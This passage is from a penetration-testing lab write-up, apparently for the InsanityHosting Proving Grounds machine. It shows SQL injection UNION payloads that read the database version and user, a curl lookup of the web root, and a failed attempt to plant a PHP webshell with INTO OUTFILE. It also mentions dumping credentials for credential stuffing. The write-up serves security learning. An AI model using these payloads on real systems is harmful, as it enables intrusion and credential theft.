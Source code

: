 - Retrieve 2 basic database info : `Database version` and `Current User` (Since I already know that `Host` and `Status` columns are probably string, I will use them)

```sql
test2" UNION ALL SELECT 1,@@version,3,USER();#---
```

![](/assets/obsidian/87f225ce8345e3a3f3f6d7fe64be96b4.png)

- Database Version : Mysql
- Current user : root

![](/assets/obsidian/ee7bbe491a5dc5602002edfb0f30e209.png)

- With user `root` in `mysql`, there are 2 low hanging fruits to try in following order:
1. Write webshell to web root
2. Dump mysql user table for credential stuffing

- I knew that web root is at `/var/www/html` via `/phpinfo.php`

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ curl http://insanityhosting.vm/phpinfo.php -s | grep SCRIPT_FILENAME
<tr><td class="e">SCRIPT_FILENAME </td><td class="v">/var/www/html/phpinfo.php </td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
```

- It failed to write webshell

```sql
test2" UNION ALL SELECT "<?php system($_REQUEST[0]); ?>" INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';#---
```

![](/assets/obsidian/68894dc06d7288a3299770218dc2493e.png)

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/InsanityHosting]
└─$ curl http://insanityhosting.vm/x.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /x.php was not found on this server.</p>
</body></html>
```
